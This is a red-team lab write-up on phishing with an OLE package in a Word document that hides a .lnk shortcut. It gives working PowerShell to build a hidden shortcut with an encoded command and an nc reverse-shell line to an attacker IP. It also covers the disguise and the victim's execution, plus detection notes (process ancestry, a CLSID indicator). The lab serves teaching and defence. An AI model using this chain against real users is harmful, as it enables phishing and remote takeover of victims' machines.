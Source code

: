 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them. 

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../.gitbook/assets/ole-payload.png)

Final result:

![](../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../.gitbook/assets/ole-execution.png)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](../../.gitbook/assets/ole-execution2.png)

{% file src="../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:

![](../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:

![](../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:

![](../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../.gitbook/assets/lnk-clsid.png)

{% embed url="https://msdn.microsoft.com/en-gb/library/dd891343.aspx" %}

{% embed url="https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}


